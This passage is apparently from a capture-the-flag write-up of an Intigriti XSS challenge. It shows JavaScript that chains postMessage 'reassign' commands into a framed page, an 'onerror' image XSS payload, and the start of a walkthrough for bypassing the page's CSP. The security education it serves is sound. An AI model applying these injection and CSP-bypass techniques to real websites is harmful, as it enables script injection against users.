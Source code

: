 ``` js
    username: 'a',
    password: 'a'
  }
  // s=u
  win.frames[1].postMessage({
    cmd: 'reassign',
    message:{
      a: 's',
      b: 'u'
    },
    credentials
  }, '*')

  // Z=x+1 so Z = x.href + 1
  win.frames[1].postMessage({
    cmd: 'reassign',
    message:{
      a: 'Z',
      b: 'x+1'
    },
    credentials
  }, '*')

  // log window[Z]
  win.frames[1].postMessage({
    cmd: 'logv',
    message: 'Z',
    credentials
  }, '*')
}, 5000)
```

So `data` will be `ftp://a:a@a#<img src=x onerror=alert(1)>`, and it will be set to HTML, triggering XSS!

No, things are not that easy... I forgot about CSP.

## Level 6: Bypassing CSP

Although I can insert any HTML, unfortunately, this webpage also has CSP:

```
script-src 
'nonce-xxx' 
https://challenge-0721.intigriti.io/analytics/ 
'unsafe-eval';

frame-src https:;

object-src 'none';base-uri 'none';
```

Since there is no `unsafe-inline`, our previous payload is invalid. In this CSP, `https://challenge-0721.intigriti.io/analytics/` is obviously a suspicious path.

